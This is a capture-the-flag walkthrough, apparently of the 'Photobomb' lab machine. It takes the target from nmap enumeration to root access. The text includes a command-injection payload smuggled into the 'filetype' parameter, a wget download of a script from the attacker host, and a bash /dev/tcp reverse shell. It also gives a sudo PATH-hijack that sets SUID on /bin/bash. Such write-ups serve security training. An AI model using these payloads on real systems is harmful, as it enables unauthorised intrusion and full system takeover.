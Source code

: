 **Target: 10.10.11.182 Photobomb**

**Initial Access:**\
nmap 10.10.11.182 -Pn --min-rate=5000 -p-\
output shows ports open: 22,80\
Enumerating those ports further:
![image](https://user-images.githubusercontent.com/93153300/198094317-0f16d654-f4d6-4cb6-8c48-91f5e4a5db94.png)
 
nmap shows that 10.10.11.182 tries to rediret to photobomb.htb.  So to make that redirect work add to file /etc/hosts:  10.10.11.182    photobomb.htb 						

Navigate to port 80 site  http://photobomb.htb  → Not much on the site.  	\	
Site has a ‘click here’ url		 → clicking on it leads to a login page on directory /printer.  	
We don’t have credentials, and trying some default credentials doesn’t work.  \
Directory brute forcing and wfuzz for subdomains doesn’t lead to anything of interest.  			

Viewing the source code on http://photobomb.htb shows:
![image](https://user-images.githubusercontent.com/93153300/198094435-390e3910-c178-4e45-b5fe-45666d164ca9.png)
 
Navigating to the directory it mentions, http://photobomb.htb/photobomb.js shows:		
![image](https://user-images.githubusercontent.com/93153300/198094493-c991b408-7b35-4d65-9d24-a04f37a68e88.png)
 
This gives credentials: username:pH0t0   password:b0Mb!			

Navigate to http://photobomb.htb/printer login page and enter the credentials, we are now logged in. The page shows pictures and a download photo to print:  	
![image](https://user-images.githubusercontent.com/93153300/198094673-58ae5451-0fac-457e-8d4e-cf56d30abd74.png)



Capturing the ‘Download photo to print’ request in burp suite shows:
![image](https://user-images.githubusercontent.com/93153300/198094722-6be55024-f70c-405f-923d-664d0cf8dcbe.png)

Fuzz the 3 parameters shown: photo, filetype, and dimensions. Let’s first fuzz for command injection.  The reason we will start with fuzzing for command injection is because http://photobomb.htb shows:
![image](https://user-images.githubusercontent.com/93153300/198095178-4536aedf-d496-4975-9782-ef9b6de7fb3e.png)

 
It seems to indicate possible command injection when it states “Your wish is its command”.  

Proof of concept  for command injection found:	\				
The command injection is on the ‘filetype’ parameter.   Add after ‘filetype=jpg’ a semicolon and then whatever command you want to run, like so: filetype=jpg;ping 10.10.14.50 -c 4			

To capture the ping request run in terminal: tcpdump -i tun0 icmp	\		
In the burp suite capture, make sure to url encode the command.  The parameters with our modification will look like this:	\				
photo=eleanor-brooke-w-TLY0Ym4rM-unsplash.jpg&filetype=jpg;ping+10.10.14.50+-c+4&dimensions=30x20

Send the request in burp suite and we get back ping requests in tcpdump.  

Let’s use this to upload a file and then run it to get a reverse shell.\
First, open a netcat listener: nc -lvnp 443\
Next, create the file: 	echo -n "bash -c 'bash -i >& /dev/tcp/10.10.14.50/443 0>&1'" > test.sh\
Then, open a python server to host the file test.sh: python3 -m http.server 80\
In burp suite, change the ping command to wget http://10.10.14.50/test.sh and url encode it:
![image](https://user-images.githubusercontent.com/93153300/198095303-77178393-5469-470d-95e0-87ade3ffbbd6.png)

 
Now that it’s uploaded, give test.sh on the target execuable permissions.  Do this in burp suite, change the wget command to chmod +x test.sh and url encode it:
![image](https://user-images.githubusercontent.com/93153300/198095342-d6bdae76-9af1-4768-bafa-2384a63f944c.png)
 
Finally, run test.sh from the target to get a reverse shell on our netcat listener.  In burp suite, change the chmod command to ./test.sh:
![image](https://user-images.githubusercontent.com/93153300/198095402-a1427dbc-6173-4c8e-af20-c26efffe36f0.png)

We now have a shell as wizard, open /home/wizard/user.txt to get the flag. 
______________________________________________________________________
**Privilege Escalation:**\
sudo -l shows:
![image](https://user-images.githubusercontent.com/93153300/198095444-26dd6654-51c1-41ad-bab4-4dc2062fbb71.png)

  
SETENV can often be exploited.  SETENV means that when you run this sudo command, you have permission to also set the PATH it will use for this command.  If we can set the PATH, then we can use that to make the running file call a malicious file that we create, instead of the file it was supposed to use.  The last step that remains to see if we can use this SETENV to get root is to look over the file that will be run with sudo (/opt/cleanup.sh) and see if any file is called without using a complete path.  Opening /opt/cleanup.sh shows:  
![image](https://user-images.githubusercontent.com/93153300/198095465-e1f2bbe6-5b88-4e75-80fa-7c0681d47376.png)



The find command is not using a complete path, so let’s use SETENV to get root. 

Step 1: create a malicious file and give it the name find → echo -n “chmod 4755 /bin/bash” > /dev/shm/find.  				
Step 2: give /dev/shm/find executable permissions  →   chmod +x /dev/shm/find	\		
Step 3: run the sudo command and give it the path to the malicious find command   → sudo PATH=/dev/shm:$PATH /opt/cleanup.sh				
Step 4: /bin/bash -p\
We have shell as root
![image](https://user-images.githubusercontent.com/93153300/198095522-9af6c384-0af6-43d5-9532-4bad28584e8d.png)

